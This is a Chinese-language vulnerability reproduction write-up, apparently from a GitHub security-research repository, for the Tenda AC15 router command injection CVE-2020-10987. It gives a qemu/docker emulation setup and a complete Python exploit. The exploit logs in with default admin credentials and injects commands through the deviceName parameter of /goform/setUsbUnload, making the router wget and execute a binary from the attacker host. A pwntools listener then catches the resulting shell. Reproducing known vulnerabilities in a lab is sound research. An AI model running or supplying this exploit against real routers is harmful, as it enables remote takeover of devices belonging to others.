

# Tenda AC15 命令注入漏洞（CVE-2020-10987）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞 Web 服务器）：192.168.2.2:80
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:armhf`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin"
```

构建并启动漏洞环境：

```sh
# 初始化环境
$ ./init_env.sh arm

# 构建镜像
$ docker-compose -f docker-compose-system.yml build

# 启动容器
$ docker-compose -f docker-compose-system.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.2.2/

# 漏洞利用，根据输出的地址信息修改 libc_base
$ python3 tools/exp.py
```

## 漏洞复现



## Exploit

```py
#!/usr/bin/python3

from pwn import *
import requests
from threading import Thread

cmd  = b'wget http://192.168.2.1:8000/tools/msf -O /msf;'
cmd += b'chmod 777 /msf;'
cmd += b'/msf'

assert(len(cmd) < 255)

url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/setUsbUnload/?deviceName=;%20" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    s.post(url=url, data=data)
    s.post(url=payload, data=data)

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()
```

## 参考链接

- <https://www.nosec.org/home/detail/4634.html>
